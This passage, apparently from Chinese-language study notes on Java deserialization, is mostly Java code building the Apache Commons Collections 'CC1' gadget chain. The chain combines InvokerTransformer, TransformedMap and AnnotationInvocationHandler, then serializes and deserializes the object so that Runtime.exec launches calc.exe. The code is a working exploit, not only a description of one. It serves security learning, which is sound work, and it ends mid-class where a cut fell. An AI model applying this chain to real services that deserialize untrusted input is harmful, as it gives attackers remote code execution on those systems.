   ```

    ```java
    package cc;
    
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    
    import java.io.*;
    import java.lang.annotation.Target;
    import java.lang.reflect.Constructor;
    import java.util.HashMap;
    import java.util.Map;
    
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.map.TransformedMap;
    
    public class CC1 {
        public static void main(String[] args) throws Exception{
            Transformer[] transformers = new Transformer[] {
                    new ConstantTransformer(Runtime.class),
                    new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                    new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                    new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
    
            Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
    
            Map innerMap = new HashMap();   //实例化一个Map对象
            innerMap.put("value", "value");
    
            Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入
    
            Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
            Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
            ctor.setAccessible(true);
            Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例
    
            FileOutputStream f = new FileOutputStream("./test.txt");
            ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
            out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化
            out.flush();
            out.close();
            //开始反序列化test.txt文件
            Unser();
        }
    
        public static void Unser() throws IOException,ClassNotFoundException{
            FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
            ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
            User u= (User) ins.readObject();   //反序列化
            System.out.println("反序列化成功！");
            ins.close();
        }
    
    }
    class User implements Serializable{
  ```